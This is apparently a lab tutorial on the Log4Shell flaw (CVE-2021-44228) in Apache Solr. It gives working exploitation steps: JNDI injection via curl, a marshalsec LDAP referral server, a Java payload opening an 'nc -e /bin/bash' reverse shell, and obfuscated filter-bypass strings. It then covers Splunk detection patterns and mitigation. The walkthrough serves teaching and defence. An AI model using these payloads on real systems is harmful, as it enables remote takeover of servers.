## Introduction
On December 9th, 2021, the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package log4j. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this log4j version. This attack has been dubbed "Log4Shell".

## Requirements

1. kali Linux as attacker.

2. CentOS with Apache Solr 8.9 or 8.11 as victim.

## Prerequisites:
- We assume you already have shell access to your CentOS/RHEL 8 system with a sudo privilege account. For remote systems, log in with the SSH client.

### Step 1 – Install Java
The latest version of Apache Solr required Java 8 or greater version to run. Make sure your system fulfills the Java requirements on your system. If Java not installed or you have java 11 do the following.
This must be done in both machine CentOS and Kali Linux.

```bash
$ sudo mkdir /usr/java
$ cd /usr/java
$ sudo wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz
$ sudo tar xvzf jdk-8u181-linux-x64.tar.gz -C /usr/java
$ JAVA_HOME=/usr/java/jdk1.8.0_181/
$ sudo update-alternatives --install /usr/bin/java java ${JAVA_HOME%*/}/bin/java 20000
$ update-alternatives --config java
````
you get something like this:


-  Make sure to enter 2 to select /usr/java/jdk1.8.0_181/bin/java
Then check installed Java version:
```bash
[root@localhost java]# java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```
Refer: [https://askubuntu.com/questions/764849/how-can-i-install-jdk-8u91-linux-x64-tar-gz-on-ubuntu](https://askubuntu.com/questions/764849/how-can-i-install-jdk-8u91-linux-x64-tar-gz-on-ubuntu){:target="_blank" rel="noopener"}

### Step 2 - Install Apache Solr on CentOS 8
Now download the required Solr version. You may also use the below command to download Apache Solr 8.9.0. or 8.11.0. After that extract the installer script.

```bash
wget https://archive.apache.org/dist/lucene/solr/8.9.0//solr-8.9.0.tgz
sudo tar xzf solr-8.9.0.tgz solr-8.9.0/bin/install_solr_service.sh --strip-components=2
```
- Then execute the installer script with bash shell followed with downloaded Archive file. The command will be like below:
```bash
sudo bash ./install_solr_service.sh solr-8.9.0.tgz 
```
- This will create an account named solr on your system and finish the installation process. After that start the service default Solr port 8983.
- To restart or stop service use the following commands:
```bash
$ service solr start
$ service solr restart
$ service solr stop
```

- Note that this port is flittered to outside world to open it do the following command to allow it through firewall.
```bash
sudo firewall-cmd --add-port=8983/tcp --permanent
sudo firewall-cmd --reload
```
## Discovery:

- Explore the web interface accessible at http://MACHINE_IP:8983 and click around to get a feel for the application. For more detail on Apache Solr, please refer to their official [website](https://solr.apache.org/){:target="_blank" rel="noopener"}.

## Proof of Concept:
- Note that the URL endpoint that you have just uncovered needs to be prefaced with the solr/ prefix when viewing it from the web interface. This means that you should visit:http://MACHINE_IP:8983/solr/admin/cores


- Now check the solr.log file on CentOS.

- You noticed that params seems to be included in the log file. At this point, you may already be beginning to see the attack vector.
- The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files.
Some examples of this syntax are:
```
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```
- You may already know the general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like so:
```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```
- This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack.
- Notice the ldap:// schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For the sake of brevity, we will not need to cover all the ins-and-outs and details of LDAP here but know that this is something we will need to work with as we refine our attack.
- For now, know that the target will in fact make a connection to an external location. This is indicated by the ATTACKERCONTROLLEDHOST placeholder in the above syntax. You, acting as the attacker in this scenario, can host a simple listener to view this connection.

> 
##### The next question is, where could we enter this syntax?
##### Anywhere that has data logged by the application.
>

- This is the crux of this vulnerability. Unfortunately, it is very hard to determine where the attack surface is for different applications, and ergo, what applications are in fact vulnerable. Simply seeing the presence of log4j files doesn't clue in on the exact version number, or even where or how the application might use the package.
- Think back. You already discovered that you could supply params to the /solr/admin/cores URL, and now that you have a better understanding of how log4j works, you should understand that this is where you supply your inject syntax. You can simply supply HTTP GET variables or parameters which will then processed and parsed by log4j. All it takes is this single line of text -- and that makes this vulnerability extremely easy to exploit.
- Other locations you might supply this JNDI syntax:
	Input boxes, user and password login forms, data entry points within applications 
	HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers 
	Any place for user-supplied data
If you would like more information on this JNDI attack vector, please review this [Black Hat USA presentation](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf){:target="_blank" rel="noopener"} from 2016.

#### Testing The Vulnerability
- view your own attacking machine IP address with command:
```bash
ip addr show
```

- Prepare a netcat listener on any port of your choosing
```bash
$ nc -lnvp 9001
Listening on 0.0.0.0 9001
```
- Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility.
```bash
$ curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9001\}'
```
Note, due to the use of the $ dollar-sign character in your syntax, you must ensure you wrap the URL within single-quotes so bash (your command-line shell) does not interpret it as a variable. Additionally, you must escape out the { } curly braces with a single backslash character, so those are not misrepresented in the curl command arguments.

Verify you have received a connection by seeing the following message in your netcat listener:


## Exploitation:
- At this point, you have verified the target is in fact vulnerable by seeing this connection caught in your netcat listener. However, it made an LDAP request... so all your netcat listener may have seen was non-printable characters (strange looking bytes). We can now build upon this foundation to respond with a real LDAP handler.
- We will utilize a open-source and public utility to stage an "LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so:
1. ${jndi:ldap://attackerserver:1389/Resource} -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary http://attackerserver/resource
3. The victim retrieves and executes the code present in http://attackerserver/resource
- This means we will need an HTTP server, which we could simply host with the following option (serving on port 8000):
```bash
$ python3 -m http.server
```
If you get stuck on any of the following steps, Check this [video.](https://www.youtube.com/watch?v=OJRqyCHheRE&ab_channel=TryHackMe){:target="_blank" rel="noopener"}
- Now will use the marshalsec utility offered at [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec){:target="_blank" rel="noopener"}
```bash
$ git clone https://github.com/mbechler/marshalsec.git
$ cd marshalsec
```
Ultimately, this needs to run Java. Reviewing the README for this utility, it suggests using Java 8. (You may or may not have success using a different version, but to "play by the rules," we will match the same version of Java used on the target virtual machine)
- We must build marshalsec with the Java builder maven. If you do not yet have maven on your system, you can install it through your package manager
```bash
$ sudo apt install maven
```
Next, run the command to build the marshalsec utility:
```bash
$ mvn clean package -DskipTests
```
- With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server (which we will prepare in just a moment).
```bash
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```


- Now that our LDAP server is ready and waiting, we can open a second terminal window to prepare and our final payload and secondary HTTP server.
- Ultimately, the log4j vulnerability will execute arbitrary code that you craft within the Java programming language. If you aren't familiar with Java, don't fret -- we will use simple syntax that simply "shells out" to running a system command. In fact, we will retrieve a reverse-shell connection so we can gain control over the target machine!
- Create and move into a new directory where you might host this payload. First, create your payload in a text editor of your choice (mousepad, nano, vim, Sublime Text, VS Code, whatever), with the specific name Exploit.java:
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


- Modify your attacker IP address and port number as appropriate.
- For this payload, you can see we will execute a command on the target, specifically nc -e /bin/bash to call back to our our attacker machine. This target has been configured with netcat for ease of exploitation, though you are more than welcome to experiment with other payloads.

- Compile your payload with
```bash
$ javac Exploit.java
```


- With your payload created and compiled, you can now host it by spinning up a temporary HTTP server.
```bash
$ python3 -m http.server
```
- Your payload is created and compiled, it is hosted with an HTTP server in one terminal, your LDAP referral server is up and waiting in another terminal -- next prepare a netcat listener to catch your reverse shell in yet another new terminal window:
```bash
$ nc -lnvp 9001
```
-Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:
```bash
$ curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```
- Modify your attacker IP address as appropriate.
- Here we go, we get a reverse shell.


## Detection using Splunk:
- Detecting exploitation might be even harder, considering the unlimited amount of potential bypasses, However will try to detect it using SPL in Splunk.
- The following query can help us to detect this attack.

```sql
index="cp_log" ("2021-44228" OR "Log4j" OR "Log4Shell" OR "%24%7bjndi:" OR "%2524%257Bjndi" OR "%2F%252524%25257Bjndi%3A" OR "%7bjndi:" OR "%7Bjndi:" OR "{base64:JHtqbmRp{env:BARFOO:-j}" OR "{::-j}" OR "{jndi:corba" OR "jndi:dns:/" OR "jndi:iiop" OR "jndi:ldap:/" OR "jndi:ldaps:/" OR "jndi:${lower:" OR "jndi:nds" OR "jndi:nis" OR "jndi:rmi:/" OR "{::-l}${::-d}${::-a}${::-p}" OR "{\:\:-j}")
| convert timeformat="%Y-%m-%d-%H" ctime(_time) AS date
|stats sparkline values(user_agent) count by src_ip, dest_ip, dest_port, date

```


Refer: 
[log-jammin-log4j-2-rce](https://www.splunk.com/en_us/blog/security/log-jammin-log4j-2-rce.html){:target="_blank" rel="noopener"}

[log4shell-detecting-log4j-vulnerability-cve-2021-44228-continued](https://www.splunk.com/en_us/blog/security/log4shell-detecting-log4j-vulnerability-cve-2021-44228-continued.html){:target="_blank" rel="noopener"}

## Mitigation and Prevention:
### IPS Blade in Checkpoint Firewall:
- To mitigate and prevent log4j vulnerability we can make use of IPS blade in checkpoint firewall.
- I enabled IPS blade with strict profile policies.
- Let’s preform the attack and see if the IPS can prevent this attack.

- I got failure: Connection reset by peer, by checking the logs on the Firewall we can see that it prevented.

- With that in mind, there are honestly an unlimited number of bypasses to sneak in this syntax. 
There are numerous resources online that showcase some examples of these bypasses, with a few offered below:
```bash
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```
- will be testing these bypass techniques and see if we can prevent them by using an IPS blade.

- You should see connection rest by peer message and no request is made to your temporary LDAP server, consequently no request is made to your HTTP server, and... no reverse shell is sent back to your netcat listener!




For other techniques, you are strongly encouraged t do your own research. There is a significant amount of information being shared in this [Reddit](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/){:target="_blank" rel="noopener"}.

### Modify the solr.in.sh file (for solr only):
- One other option is to manually modify the solr.in.sh file with a specific syntax. Let's go down that route for the sake of showcasing this defensive tactic.
- Determine where the solr.in.sh file exists on the machine's filesystem. You can do this rapidly with the following command:
```bash
locate solr.in.sh
```

- The Apache Solr website Security page explains that you can add this specific syntax to the solr.in.sh file:
```bash
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```
- You can do this rapidly with the following command:
```bash
echo 'SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"' >> /etc/default/solr.in.sh
```

- Now that the configuration file has been modified, the service still needs to be restarted for the changed to take effect.
- This process may vary between installations, but for this server, you can restart the service with this syntax:
```bash
sudo /etc/init.d/solr restart
```
- To validate that the patch has taken place, Let’s perform the attack again.

- You should see that no request is made to your temporary LDAP server, consequently no request is made to your HTTP server, and... no reverse shell is sent back to your netcat listener!
Refer: [https://solr.apache.org/security.html](https://solr.apache.org/security.html){:target="_blank" rel="noopener"}


References:

- [https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java){:target="_blank" rel="noopener"}
- [https://tecadmin.net/how-to-install-apache-solr-on-centos-8/](https://tecadmin.net/how-to-install-apache-solr-on-centos-8/){:target="_blank" rel="noopener"}
- [https://tryhackme.com/room/solar#](https://tryhackme.com/room/solar#){:target="_blank" rel="noopener"}
- [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec){:target="_blank" rel="noopener"}
- [https://www.youtube.com/watch?v=7qoPDq41xhQ&ab_channel=JohnHammond](https://www.youtube.com/watch?v=7qoPDq41xhQ&ab_channel=JohnHammond){:target="_blank" rel="noopener"}
- [https://github.com/YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface){:target="_blank" rel="noopener"}